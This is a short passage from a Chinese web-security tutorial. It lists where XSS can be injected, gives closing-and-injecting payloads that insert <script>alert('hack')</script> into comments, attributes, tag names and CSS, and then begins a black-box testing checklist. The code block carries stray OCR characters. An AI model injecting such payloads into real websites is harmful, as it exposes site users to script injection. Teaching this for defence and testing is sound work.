 XSS可以插在哪里？ 

-----------



*   用户输入作为script标签内容

*   用户输入作为HTML注释内容

*   用户输入作为HTML标签的属性名

*   用户输入作为HTML标签的属性值

*   用户输入作为HTML标签的名字

*   直接插入到CSS里

*   最重要的是，千万不要引入任何不可信的第三方JavaScript到页面里！



```
#用户输入作为HTML注释内容，导致攻击者可以进行闭合绕过      
<!-- 用户输入 -->      
<!-- --><script>alert('hack')</script><!-- -->       
#用户输入作为标签属性名，导致攻击者可以进行闭合绕过      
<div 用户输入="xx">  </div>      
<div ></div><script>alert('hack')</script><div a="xx"> </div>       
#用户输入作为标签属性值，导致攻击者可以进行闭合绕过      1
<div id="用户输入"></div>      1
<div id=""></div><script>alert('hack')</script><div a="x"></div>       1
#用户输入作为标签名，导致攻击者可以进行闭合绕过      1
<用户输入  id="xx" />      1
<><script>alert('hack')</script><b id="xx" />       1
#用户输入作为CSS内容，导致攻击者可以进行闭合绕过      1
<style>用户输入<style>      1
<style> </style><script>alert('hack')</script><style> </style>
```




XSS漏洞的挖掘 

---------



**黑盒测试**



尽可能找到一切用户可控并且能够输出在页面代码中的地方，比如下面这些：



*   URL的每一个参数

*   URL本身

*   表单

*   搜索框
